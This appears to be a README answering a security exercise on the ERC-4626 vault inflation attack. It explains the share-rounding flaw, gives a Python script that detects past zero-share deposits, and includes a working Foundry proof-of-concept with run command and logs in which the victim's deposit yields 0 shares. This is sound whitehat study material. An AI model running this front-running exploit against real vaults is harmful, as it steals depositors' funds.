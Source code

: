 # Vault - Tier 1
You are looking through an old version of the OpenZeppelin implementation of ERC-4626 and notice a vulnerability that requires frontrunning an innocent user. You have been granted a large amount of ETH (say e.g. 1k ETH, but you are free to choose the amount :) ) and want to set up a whitehat bot to execute this exploit and return the funds to the user.


### a) Describe the vulnerability and the payoffs for an attacker.

he key vulnerability in the ERC-4626 tokenized vault standard arises from the calculation of shares during asset deposits. The formula uses `asset.balanceOf(address(this))` as the denominator, which can be manipulated. A potential attacker could exploit this by transferring assets to the vault contract immediately before a legitimate deposit transaction, effectively front-running it.

``` sharesAmount = totalShares * assetAmount / asset.balanceOf(address(this)) ```

Depending on the implementation and protection mechanisms in place, the potential vulnerability may vary:

1. A vault might be vulnerable to a total loss of user funds, which go directly to the attacker, if the vault doesn't implement any protection. This occurs by rounding the depositor's shares to 0.
2. A vault might be vulnerable to a partial loss of funds if there is some protection, by rounding the depositor's shares to 1.
3. A vault might have proper protection in place through "dead shares," which make it impossible for the attacker to profit and extremely expensive to launch a griefing attack.

The payoffs for the attacker in scenario 1 are the most significant, as they can receive 100% of the innocent user's deposit. In scenario 2, the attacker can still ensure a profit. They don't risk losing funds in either case when executing the attack.

In scenario 3, however, the attacker would have to lose a substantial amount just to sabotage the user's deposit.

For the sake of this exercise, I'm assuming we're dealing with vulnerability 1, as this was the case for the old OpenZeppelin implementation of ERC4626.

### b)  Produce code that can check if this vulnerability has occurred in the past and determine how much value was lost, if any.

Assuming we're dealing with the first scenario, we can check if the attack has occurred previously by filtering `Deposit` events on the vault where the assets deposited are greater than 0 and the shares received are 0. 

While the attacker could round the victim's shares to 1, we'll assume they maximize their gains. We've created a script to monitor a specific vault, located in `./scripts `

```python
def check_for_attack(events):
    for event in events:
        assets = event['args']['assets']
        shares = event['args']['shares']

        print(f"Assets: {assets}, Shares: {shares}")

        # Check if shares are 0 and assets > 0
        if shares == 0 and assets > 0:
            caller = event['args']['caller']
            owner = event['args']['owner']
            print(f"Potential attack detected! Caller: {caller}, Owner: {owner}, Assets lost: {assets} tokens")
        else:
            print("No attack detected")
```


### c)  Write code for the bot that can carry out the exploit (don’t worry about returning user funds).

A test on foundry was created replicating the full situation, where the victim got out of tokens, and we were able to get access to 100% of their deposit can be found on `./simulations`

```solidity
    function test() public {
        uint256 vaultBalanceStart = weth.balanceOf(address(vault));
        uint256 victimBalanceStart = weth.balanceOf(victim);
        uint256 whitehatBalanceStart = weth.balanceOf(whitehat);

        console2.log("vault balance start", vaultBalanceStart);
        console2.log("victim balance start", victimBalanceStart);
        console2.log("whitehat balance start", whitehatBalanceStart);

        vm.startPrank(whitehat);
        vault.deposit(1, whitehat);

        uint256 vaultBalanceAfterMint = weth.balanceOf(address(vault));

        assertEq(vaultBalanceAfterMint, 1);

        weth.transfer(address(vault), inflationAmount);

        uint256 vaultBalanceAfterTransfer = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterTransfer = vault.totalSupply();

        console2.log("vault balance after transfer", vaultBalanceAfterTransfer);
        console2.log("vault total supply after transfer", vaultTotalSupplyAfterTransfer);
        console2.log("victim deposit");

        vm.startPrank(victim);
        vault.deposit(victimDeposit, victim);
        
        uint256 victimBalanceAfterDeposit = weth.balanceOf(victim);
        uint256 vaultBalanceAfterDeposit = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterDeposit = vault.totalSupply();
        uint256 victimShares = vault.balanceOf(victim);
        uint256 whitehatShares = vault.balanceOf(whitehat);

        console2.log("victim balance after deposit", victimBalanceAfterDeposit);
        console2.log("vault balance after deposit", vaultBalanceAfterDeposit);
        console2.log("vault total supply after deposit", vaultTotalSupplyAfterDeposit);
        console2.log("victim shares", victimShares);
        console2.log("whitehat shares", whitehatShares);

        assertEq(victimShares, 0);
        assertEq(whitehatShares, 1);
        assertEq(vaultBalanceAfterDeposit, inflationAmount + victimDeposit + 1);
    }
```

It can be run by going into simulations and running 

`forge test --match-path test/01_ERC_4626.sol --via-ir --fork-url  http://127.0.0.1:8599 -vvv `

```shell
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/01_ERC_4626.sol:VaultTest
[PASS] test() (gas: 158259)
Logs:
  vault balance start 0
  victim balance start 100000000000000000000
  whitehat balance start 100000000000000000000
  deposit
  vault balance after transfer 10000000000000000001
  vault total supply after transfer 1
  victim deposit
  deposit
  victim balance after deposit 90000000000000000000
  vault balance after deposit 20000000000000000001
  vault total supply after deposit 1
  victim shares 0
  whitehat shares 1

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.88ms (2.40ms CPU time)
```
